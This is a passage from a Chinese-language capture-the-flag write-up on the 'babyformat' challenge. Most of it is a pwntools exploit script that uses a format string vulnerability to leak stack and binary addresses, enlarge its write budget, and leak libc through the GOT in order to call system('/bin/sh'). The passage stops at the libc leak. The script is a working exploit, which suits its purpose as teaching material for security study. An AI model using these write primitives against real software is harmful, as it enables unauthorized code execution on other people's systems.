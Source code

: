 在得到libc基地址后，利用功能函数var_in_stack_addr，在返回地址处和第一个入口参数设置system函数地址和”/bin/sh”字符串地址。

最终的利用脚本如下：

```python
from pwn import *
def var_in_stack_addr(stack_addr, val):
	#利用格式化字符串漏洞在指定栈地址stack_addr下写入任意值val
    saddr_low = (stack_addr + 2) & 0xffff
    payload1 = "%"+str(saddr_low) + "d" + "%9$hn"
    p.sendline(payload1)
    p.recvrepeat(0.5)

    saddr_high = (stack_addr) & 0xffff
    payload2 = "%" + str(saddr_high) + "d" + "%10$hn"
    p.sendline(payload2)
    p.recvrepeat(0.5)

    val_high = (val & 0xffff0000) >> 16
    val_low = val & 0xffff
    
    payload3 = "%" + str(val_high)+"d" + "%57$hn"
    p.sendline(payload3)
    p.recvrepeat(0.5)

    payload4 = "%" + str(val_low)+"d"+"%59$hn"
    p.sendline(payload4)
    p.recvrepeat(0.5)

p=process("./babyformat")
elf = ELF("./babyformat")
p.recvline("==== Baby Format - Echo system ====")

#====== 获得栈地址和程序加载地址 =====
p.sendline('%p%6$p')
buff_oebp_addr = p.recvline()

buff = int(buff_oebp_addr[2:10],16)
binary_base = buff - 0x202c 
log.info("BUFF address is 0x%x" % buff)
ebp = int(buff_oebp_addr[12:20],16) - 0x20
log.info("ebp address is 0x%x" % ebp)

# =====修改index为负数，增加格式化字符串漏洞利用次数 =====
i_16 = (ebp + 0x17) & 0xffff
payload1 = "%" + str(i_16) + "d" + "%9$hn"
p.sendline(payload1)
p.recvrepeat(1)

payload2 = "%255d%57$hhn"
p.sendline(payload2)
p.recvrepeat(1)

# ===== 泄露libc，并获得shell =====
printf_offset = 0x49680
bin_sh_offset = 0x15bb0b
system_offset = 0x03adb0

printf_got = elf.got["printf"] + binary_base
var_in_stack_addr(ebp+0x28,printf_got) # 在栈上存储got表项的位置随意，只要和fmt的offset一致就可以，即ebp+0x28和16一致,还可以使用ebp+0x20和14。
p.recvrepeat(1)

payload3 = "%16$s"
p.sendline(payload3)
```